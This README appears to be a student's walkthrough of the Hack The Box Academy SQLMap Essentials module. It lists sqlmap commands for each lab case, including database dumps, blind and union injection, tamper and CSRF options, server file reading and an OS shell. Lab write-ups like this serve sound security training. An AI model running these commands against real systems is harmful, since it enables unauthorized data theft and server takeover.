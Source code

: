 This repository contains my walkthrough and notes from the SQLMap Essentials module on Hack The Box Academy. The exercises and final assessment helped sharpen my skills in identifying and exploiting SQL Injection vulnerabilities using SQLMap.

## How to get case file?

Start Burp Suite and configure your browser to use it as a proxy (usually 127.0.0.1:8080).

Navigate to the vulnerable web page in your browser (e.g., the Catalog page or form submission).

Capture the request using the Proxy > HTTP history tab in Burp.

Right-click the request > "Save item" > Save it as Case1.txt, shop.txt, etc.

Format: Plain HTTP request (no headers or extra encoding)

File Extension: .txt (SQLMap accepts raw HTTP requests this way)

## Module Exercises ##

## Case 1: Basic Dump ##
```bash 
sqlmap -r Case1.txt --threads 10 --dump -T flag1 -D testdb --dbms=MySQL --batch
```
## Case 2: Simple Request ##
```bash
sqlmap -r Case2.txt --threads 10 --dump -T flag2 --batch
```
## Case 3: Cookie-Based Injection ##
```bash 
sqlmap -r Case3.txt -p cookie --threads 10 --dump -T flag3 --batch
```
## Case 4: Simple Dump ##

sqlmap -r Case4.txt --threads 10 --dump -T flag4 --batch

## Case 5: Time-Based Blind SQLi ##

sqlmap -r Case5.txt --batch --dump -T flag5 -D testdb \
--no-cast --dbms=MySQL --technique=T --time-sec=10 --level=5 --risk=3 --fresh-queries

## Case 6: Using Prefix Payload ##

sqlmap -r Case6.txt --batch --dump -T flag6 -D testdb \
--no-cast --level=5 --risk=3 --prefix='`)'

## Case 7: Union-Based Injection ##

sqlmap -r Case7.txt --batch --dump -T flag7 -D testdb \
--no-cast --level=5 --risk=3 --union-cols=5 --dbms=MySQL

## Case 8: CSRF Token Handling ##

sqlmap -r case8.txt --batch -p "id" --csrf-token="t0ken" \
--dbms MySQL -D testdb -T flag8 --dump --flush-session --no-cast

## Case 9: Randomized Parameter ##

sqlmap -r Case9.txt -T flag9 --dump --risk=3 --level=5 --batch --randomize=uid

## Case 10: Random Agent ##

sqlmap -r case10.txt --batch -p "id" --random-agent \
--dbms MySQL -D testdb -T flag10 --dump --flush-session --no-cast

## Case 11: Tamper Script ##

sqlmap -r case11.txt --batch -p "id" --tamper=between \
--dbms MySQL -D testdb -T flag11 --dump --flush-session --no-cast

## File Reading & OS Shell ##

sqlmap -r read_file.txt --is-dba
sqlmap -r read_file.txt --file-read="/var/www/html/flag.txt"
cat ~/.local/share/sqlmap/output/94.237.58.172/files/_var_www_html_flag.txt

## OS Shell Access ##

sqlmap -u "http://94.237.58.172:59643?id=1" --os-shell --technique=E --batch
find / -type f -iname "*flag*" 2>/dev/null

## Skills Assessment: Minishop Web App ##

## Overview ##
**Application** : Minishop
**Pages Analyzed**: Blog, Contact Us, Catalog
### Findings
**Blog**: Not vulnerable (form action is '#')
**Contact Us**: Not vulnerable (form action is '#')
**Catalog (/shop)**: Vulnerable — uses JavaScript to post JSON to action.php

## Exploitation
### Intercepted request using Burp Suite
### Saved to shop.txt

## Exploited with SQLMap:

sqlmap -r shop.txt --batch -p 'id' --random-agent \
--tamper=between --dbms=MySQL -D production -T final_flag --dump

## Outcome

Successfully dumped final_flag table from the production database.

## Conclusion

**This module strengthened my understanding of:**

_SQL injection techniques (Boolean-based, Time-based, Union-based)
_
_Tamper scripts, CSRF tokens, and header injection_

_File read and OS shell interaction_

_Real-world application analysis and exploitation_

_I plan to continue my journey through the Hack The Box Pentester Pathway, with a focus on advanced web application testing, mobile app security, and red team tactics._

## 📁 Repository Structure

.
├── cases/
│   ├── Case1.txt
│   ├── Case2.txt
│   └── ...
├── shop.txt
├── read_file.txt
├── sqlmap_commands.md
└── README.md  <-- (this file)

Feel free to fork this repository and use it as a reference for your own HTB Academy progress!

## 📜 License

This project is licensed under the MIT License.
